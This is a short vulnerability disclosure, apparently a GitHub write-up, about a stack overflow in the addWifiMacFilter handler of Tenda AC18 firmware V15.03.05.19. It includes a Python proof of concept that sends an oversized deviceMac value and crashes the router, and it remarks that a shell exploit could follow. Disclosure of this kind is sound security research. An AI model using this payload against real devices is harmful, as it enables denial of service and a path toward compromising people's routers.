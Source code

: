 # Tenda AC18 V15.03.05.19 Stack overflow vulnerability

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/addWifiMacFilter.        The contents obtained by the deviceMac parameter are passed to v11, and then the contents matched by v11  and put into the nptr without size checking, resulting in a stack overflow.

![](img/2.png#center)

## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/addWifiMacFilter'

headers = {"Cookie": "password=You cookie"}
data = {
    'deviceMac': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
